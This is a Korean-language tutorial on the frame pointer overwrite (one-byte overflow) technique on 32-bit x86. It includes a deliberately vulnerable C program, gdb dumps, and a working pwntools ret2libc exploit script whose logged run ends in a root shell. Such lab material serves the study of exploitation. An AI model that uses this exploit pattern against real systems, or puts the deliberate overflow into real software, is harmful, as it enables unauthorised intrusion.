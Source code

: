 ## **Concept**

Frame Poineter를 1byte 덮어써 코드의 흐름을 변경하는 기법. One-byte Overflow라고도 한다.

#### **Stack Alignment**
x86-64 ABI는 16Byte Stack alignment가 필요하다.  
ABI와 호환되지 않는 환경에서 스택 공간을 제한해서 사용하기 위함. 

**Stack alignment at 4-byte boundary**

```
0x080485c7 <+0>:  push   ebp
0x080485c8 <+1>:  mov    ebp,esp
~
0x080485ea <+35>: leave 
0x080485eb <+36>: ret
``` 

**Stack alignment at 16-byte boundary** 
1. main() 함수가 시작되는 부분에서 이전 함수에서 사용하던 Frame Pointer를 Stack에 저장하기 전에 Stack alignment 수행 
1. main() 함수가 종료되는 부분에서 leave 명령 실행 전, ebp 레지스터에 저장된 주소에 0x4를 뺀 주소 값을 esp 레지스터에 저장 
1. Stack alignment 코드가 적용되면 ret 코드가 실행되기 전에 "lea esp,[ecx-0x4]" 명령에 의해 esp 레지스터가 변경됨 
1. ecx 레지스터의 값은 leave 코드가 실행되기전에 ebp 레지스터를 이용해 값을 저장하기 때문에 esp 레지스터의 값을 변경할 수 있음 

```
0x080485d3 <+0>: lea    ecx,[esp+0x4]
```

esp 레지스터에 저장된 값에 0x4를 더한 주소를 ecx에 저장

```
0x080485d7 <+4>: and    esp,0xfffffff0
```

esp 레지스터에 저장된 값과 0xfffffff0을 AND 연산한 값을 저장(0xffffd59c & 0xfffffff0 = 0xffffd590) 이로 인해 Stack 주소가 16byte 경계에 맞춰짐

```
0x080485da <+7>: push   DWORD PTR [ecx-0x4]
```

stack에 [ecx-0x4]주소에 저장된 값 저장(main() 함수가 종료되고 되돌아갈 Return address)  
ESP 레지스터의 값이 leave 코드에 의해 변경되는 것이 아니라 lea esp,[ecx-0x4] 코드에 의해 변경된다.

## **Proof of Concept**

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o fpo fpo.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <stdlib.h>
  
void vuln(){
    char buf[50];
    printf("buf[50] address : %p\n",buf);
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 63);
}
  
void main(int argc, char *argv[]){
    if(argc<2){
        printf("argv error\n");
        exit(0);
    }
    vuln();
}
```

63byte를 입력받으면 ebp의 마지막 1byte가 overflow.

```
gdb-peda$ x/24wx 0xbfa07cfa(&buf)
0xbfa07cfa:	0x41414141	0x42424242	0x43434343	0x44444444
0xbfa07d0a:	0x45454545	0x46464646	0x47474747	0x48484848
```

&buf+4(0xbfa07cfe)의 마지막 byte(0xfe)를 EBP의 마지막 바이트에 삽입.

```
gdb-peda$ x/24x $ebp
0xbfa07d02:	0x43434343	0x44444444	0x45454545	0x46464646
0xbfa07d12:	0x47474747	0x48484848	0x80ecb70a	0x0002b7d2
```

mov ecx,DWORD PTR [ebp-0x4] 명령으로 0xbfa07cfe가 ecx 레지스터에 저장된다.  

```
gdb-peda$ x/24x $ecx-0x4
0x4242423e:	Cannot access memory at address 0x4242423e
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
p=process(['./fpo','AA'])

tmp = p.recvline().split(' ')[3]
printf = int(p.recvline().split(' ')[3],16)
buf = int(tmp,16)

print('buf    :%s'%hex(buf))
print('printf :%s'%hex(printf))

onebyte = int(tmp[8:11],16)
print('onebyte :%s'%hex(onebyte))

buf += 0x8
onebyte += 0x4

libBase = printf-0x4a670
system = libBase + 0x3bda0
binsh = libBase + 0x15ca0b
exit = libBase + 0x2f9d0

print('libBase :%s'%hex(libBase))
print('system :%s'%hex(system))
print('/bin/sh :%s'%hex(binsh))
print('exit :%s'%hex(exit))

exploit = p32(buf)
exploit += p32(system)
exploit += p32(exit)
exploit += p32(binsh)
exploit += "x90"*(62-len(exploit))
exploit += p32(onebyte)

p.sendline(exploit)

p.interactive()
```

## **Exploit**
```shell
root@bs-virtual-machine:~/fpo# python expliot.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './fpo': pid 3107
buf    :0xbfb2019a
printf :0xb7e4b670
onebyte :0x9a
libBase :0xb7e01000
system :0xb7e3cda0
/bin/sh :0xb7f5da0b
exit :0xb7e309d0
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**Refereces**  
[https://www.lazenca.net/display/TEC/01.Frame+Pointer+Overwrite%28One-byte+Overflow%29+-+x86](https://www.lazenca.net/display/TEC/01.Frame+Pointer+Overwrite%28One-byte+Overflow%29+-+x86)

